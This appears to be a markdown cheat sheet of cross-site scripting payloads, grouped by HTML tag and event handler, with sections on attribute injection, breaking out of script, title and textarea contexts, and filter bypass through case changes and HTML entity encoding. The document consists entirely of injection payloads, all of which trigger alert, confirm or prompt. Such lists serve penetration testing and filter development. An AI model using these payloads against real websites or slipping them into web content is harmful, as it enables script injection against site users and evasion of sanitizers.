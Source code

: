 # Basic Tag + Event Listener + Popup Combinations
### Script Tag Payloads
```html
<script>alert(1)</script>
<script>confirm(1)</script>
<script>prompt(1)</script>
<script onload="alert(1)"></script>
<script onerror="confirm(1)"></script>
```

### Image Tag Payloads
```html
<img src=x onerror="alert(1)">
<img src=x onerror="confirm(1)">
<img src=x onerror="prompt(1)">
<img onload="alert(1)" src="data:image/gif;base64,R0lGODlhAQABAIAAAAAAAP///yH5BAEAAAAALAAAAAABAAEAAAIBRAA7">
<img onclick="alert(1)" src=x>
<img onmouseover="confirm(1)" src=x>
<img onfocus="prompt(1)" src=x tabindex=1>
```

### SVG Tag Payloads
```html
<svg onload="alert(1)">
<svg onerror="confirm(1)">
<svg onclick="prompt(1)">
<svg onmouseover="alert(1)"><rect width="100" height="100"/></svg>
<svg onfocus="confirm(1)" tabindex=1>
<svg onresize="prompt(1)">
```

### Iframe Payloads
```html
<iframe src="javascript:alert(1)">
<iframe src="javascript:confirm(1)">
<iframe src="javascript:prompt(1)">
<iframe onload="alert(1)" src="about:blank">
<iframe onerror="confirm(1)" src=x>
```

### Form and Input Payloads
```html
<form onsubmit="alert(1)"><input type=submit>
<form onsubmit="confirm(1)"><input type=submit>
<input onfocus="alert(1)" autofocus>
<input onblur="confirm(1)" autofocus>
<input onchange="prompt(1)" value="test">
<input onkeydown="alert(1)" autofocus>
<input onclick="confirm(1)" type=button value="Click">
```

### Video and Audio Payloads
```html
<video onload="alert(1)" controls>
<video onerror="confirm(1)" src=x>
<video onclick="prompt(1)" poster=x>
<audio onload="alert(1)" controls>
<audio onerror="confirm(1)" src=x>
<audio oncanplay="alert(1)" src="data:audio/wav;base64,UklGRnoGAABXQVZFZm10IBAAAAABAAEAQB8AAEAfAAABAAgAZGF0YQoGAACBhYqFbF1fdJivrJBhNjVgodDbq2EcBj">
```

### Object and Embed Payloads
```html
<object onerror="alert(1)" data=x>
<object onclick="confirm(1)" data="data:text/html,<script>prompt(1)</script>">
<embed src=x onerror="alert(1)">
<embed onclick="confirm(1)" src="javascript:alert(1)">
```

## Advanced Combination Payloads
### Multi-Event Combinations
```html
<img src=x onerror="alert(1)" onclick="confirm(1)" onmouseover="prompt(1)">
<svg onload="alert(1)" onclick="confirm(1)"><rect onmouseover="prompt(1)" width="100" height="100"/></svg>
<input onfocus="alert(1)" onblur="confirm(1)" onchange="prompt(1)" autofocus>
```

### Attribute Injection Payloads
```html
" onclick="alert(1)" "
' onmouseover="confirm(1)" '
"> <script>prompt(1)</script> <"
' onfocus="alert(1)" autofocus '
"onload="confirm(1)"
```

### Event Handler Variations
```html
<body onload="alert(1)">
<body onresize="confirm(1)">
<div onclick="prompt(1)">Click me</div>
<button onmouseover="alert(1)">Hover</button>
<textarea onfocus="confirm(1)" autofocus></textarea>
<select onchange="prompt(1)"><option>1</option><option>2</option></select>
```

### Context-Breaking Payloads
```html
</script><script>alert(1)</script>
"></script><svg onload="confirm(1)">
'><img src=x onerror="prompt(1)">
</title><script>alert(1)</script>
</textarea><script>confirm(1)</script>
```

## Filter Bypass Variations
### Case Variation and Obfuscation
```html
<ScRiPt>alert(1)</ScRiPt>
<IMG SRC=x ONERROR="confirm(1)">
<svg/onload="prompt(1)">
<img src=x onerror=alert(1)>
<iframe src=javascript:confirm(1)>
```

### Encoding Variations
```html
<script>alert&#40;1&#41;</script>
<img src=x onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;">
<svg onload="&#99;&#111;&#110;&#102;&#105;&#114;&#109;&#40;&#49;&#41;">
```
